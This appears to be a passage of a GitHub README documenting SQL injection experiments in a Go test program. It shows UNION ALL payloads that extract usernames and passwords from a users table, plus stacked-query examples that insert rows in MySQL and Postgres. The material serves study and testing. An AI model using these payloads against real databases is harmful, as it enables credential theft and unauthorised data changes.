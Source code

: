 Payload
```sql
1 UNION ALL SELECT username, password, 1 FROM users
```
Result sql
```sql
SELECT id, name, author from books where id=1 UNION ALL SELECT username, password, 1 FROM users;
```
### Postgres, MSSQL 
- types of columns must be the same

Payload:
```sql
1 UNION ALL SELECT 1, username, password FROM users
```
Result sql
```sql
SELECT id, name, author from books where id=1 UNION ALL SELECT 1, username, password FROM users;
```

## Stacked Queries
- Stacked queries are supported only by Postgres and MSSQL
- The behavior depends on the realisation of the code by developers. Sometimes  you can get result only from first query, sometimes from all, sometimes from the last query.

### Mysql
Mysql returns an error if you try to use stacked queries.
```bash
./main --dbDriver=mysql runQuery "SELECT * FROM users;INSERT into users (username, password) VALUES ('dsadas15', 'password')"
```

```
Error: Error 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'INSERT into users (username, password) VALUES ('dsadas15', 'password')' at line 1
```
### Postgres
- Postgres has limitation. You can only have a single query if you are using parameters in query. https://github.com/lib/pq/issues/928
#### Examples using golang
1. Update data. The example bellow creates a new user and returns all users from the table without just created user.
```bash
./main --dbDriver=postgres runQuery "SELECT * FROM users;INSERT into users (username, password) VALUES ('dsadas12', 'password');"
```
The behavior depends on the postgres driver. I used `github.com/lib/pq` driver.
2. Get data.
```bash
./main --dbDriver=postgres runQuery "SELECT name, author  FROM books where id=1;SELECT username as name, password as author FROM users;"
```